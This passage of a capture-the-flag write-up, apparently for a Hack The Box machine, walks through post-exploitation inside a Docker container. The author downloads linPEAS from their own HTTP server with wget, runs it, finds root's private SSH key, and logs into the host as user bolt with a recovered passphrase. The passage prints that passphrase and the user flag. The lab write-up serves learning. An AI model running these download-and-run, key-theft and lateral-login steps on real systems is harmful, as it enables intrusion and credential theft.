 Great we are on the image. It looks like we have root, all done! 

### USER

But no, this is just a local docker. but we can search the box for any interesting files. We can use `linPeas.sh `(https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh.). For that we actually need to install wget in the docker : `apt install wget`. On our local machine we can use python for creating a HTTP server (`python -m SimpleHTTPServer`). and we can download the script in the docker.

```sh
root@1abe759b82f6:/# wget http://10.10.15.93:8000/linpeas.sh                
--2020-04-02 18:03:09--  http://10.10.15.93:8000/linpeas.sh                
Connecting to 10.10.15.93:8000... connected.                               
HTTP request sent, awaiting response... 200 OK                             
Length: 160486 (157K) [text/x-sh]                                          
Saving to: 'linpeas.sh'                                                                                                                                       
linpeas.sh    0%       0  --.-KB/s       linpeas.sh  100% 156.72K  --.-KB/s    in 0s                                                                          
2020-04-02 18:03:09 (570 MB/s) - 'linpeas.sh' saved [160486/160486]
```

And we run it. I won't put all the output, just what I think might be of interest. 

```sh
root@1abe759b82f6:/# sh linpeas.sh 
[...]

[+] Looking for ssl/ssh files
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/.ssh/known_hosts
Private SSH keys found!:
/root/.ssh/id_rsa
 --> Some home ssh config file was found
/root/.ssh/config
Host registry
  User bolt
  Port 22
  Hostname registry.htb

[...]
```

So we have an `id_rsa`  file and its public key. Looking at the public key we see that it finishes with  `...9asjSpIT5Bmow== bolt@registry.htb` which suggests that this ssh key is not actually for root but maybe for bolt user. We also have the password we found earlier. lets try sshing with those:

```sh
root@1abe759b82f6:~/.ssh# ssh -i id_rsa bolt@10.10.10.159
Enter passphrase for key 'id_rsa': GkOcz221Ftb3ugog
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Thu Apr  2 16:08:12 UTC 2020

  System load:  0.04              Users logged in:                1
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 30%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    171
Last login: Thu Apr  2 15:57:09 2020 from 10.10.15.124
bolt@bolt:~$ id
uid=1001(bolt) gid=1001(bolt) groups=1001(bolt)
bolt@bolt:~$ cat user.txt 
ytc0ytdmnzywnzgxngi0zte0otm3ywzi
```
